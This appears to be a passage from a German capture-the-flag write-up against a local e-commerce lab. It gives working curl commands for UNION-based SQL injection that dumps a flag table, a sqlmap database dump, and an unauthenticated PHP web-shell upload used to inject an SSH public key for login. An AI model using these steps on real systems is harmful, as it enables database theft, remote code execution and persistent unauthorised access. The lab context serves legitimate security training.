 
nächster try ob UNION SELECT funktioniert

    curl -s "http://localhost:8080/index.php?fc=module&module=ndk_steppingpack&controller=quote&product_id=-1%20UNION%20SELECT%201,2%23"
    ⇒ [{"product_id":"1","data":"2"}]


Flag-Dump:

    curl -s "http://localhost:8080/index.php?fc=module&module=ndk_steppingpack&controller=quote&product_id=-1%20UNION%20SELECT%201,flag%20FROM%20prefix2_0ctf_flags%23"


⇒ [{"product_id":"1","data":"FLAG{SQLI_SUCCESS}"}]

⇒FLAG{SQLI_SUCCESS}

(Optional mit sqlmap:)

z.B. auch DB komplett auslesbar über SQLMap welche Tabellen existieren und dadurch Infos sammeln.

    sqlmap -u "http://localhost:8080/index.php?fc=module&module=ndk_steppingpack&controller=quote&product_id=1" \
       -p product_id --dbms mysql --batch --union-cols=2 \
       --dump -D cubecart -T prefix2_0ctf_flags


## Flag 3: SSH-Key Injection via File-Upload

Modul:
modules/orderfiles/ajax/upload.php
– unauth. Upload von exampleshell.php

Zu finden im Header rechts oben als button mit dem Namen "Upload File"
Beim klicken kommt folgende Nachricht:

Oops Something Went Wrong. Try again with curl and the orderfile


Exploit-Steps:

Shell hochladen 

    curl -F "file=@exampleshell.php;filename=exampleshell.php"      -F "auptype=product"      http://localhost:8080/modules/orderfiles/ajax/upload.php

gibt dann auch den Ablegeort zurück um dann auf diese zugreifen zu können

    {"ok":true,"path":"modules\/orderfiles\/data\/uploads\/exampleshell.php"}

Public-Key injizieren:

    curl -X POST --data-urlencode "key=$(<~/.ssh/id_ed25519.pub)"  http://localhost:8080/modules/orderfiles/data/uploads/exampleshell.php
⇒ "Key injected"
SSH-Login (Key-Only):

    ssh -i ~/.ssh/id_ed25519 -p 2222 ctf@localhost
Flag auslesen:

    cat ~/.ssh/flag3.txt   
    